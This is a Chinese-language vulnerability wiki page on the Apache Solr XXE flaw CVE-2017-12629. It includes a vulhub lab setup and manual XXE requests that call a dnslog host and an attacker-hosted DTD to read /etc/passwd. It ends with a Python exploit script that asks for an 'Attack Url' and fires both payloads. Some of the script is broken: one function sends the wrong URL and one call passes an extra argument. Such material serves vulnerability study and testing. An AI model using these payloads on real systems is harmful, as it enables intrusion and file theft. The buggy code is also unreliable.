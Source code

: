 # Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

Apache Solr < 7.1
Apache Lucene < 7.

### 环境搭建

```
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现

### Dnslog

先请求url地址获取 core 内容 

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores

![](http://wikioss.peiqi.tech/vuln/solr-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问 

```
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![](http://wikioss.peiqi.tech/vuln/solr-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

查看dnslog得到请求

![](http://wikioss.peiqi.tech/vuln/solr-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

### 远程读取文件

在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![](http://wikioss.peiqi.tech/vuln/solr-18.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 注意这里的payload进行了url编码,请求的文件为 http://peiqi.tech/1.dtd，有更多需求自行更改写入的xml文件



### 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629-xxe.py                             \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> xxe_file(读取/etc/passwd)                               \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """
        /solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml
        """ % (core_name, dnslog_url)

    vuln_url = target_url + dnslog_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应 \033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """/solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "/usr/sbin" in response.text:
            print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)
    else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
        elif cmd == "xxe_file":
            POC_3(target_url, core_name)

```

![](http://wikioss.peiqi.tech/vuln/solr-19.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)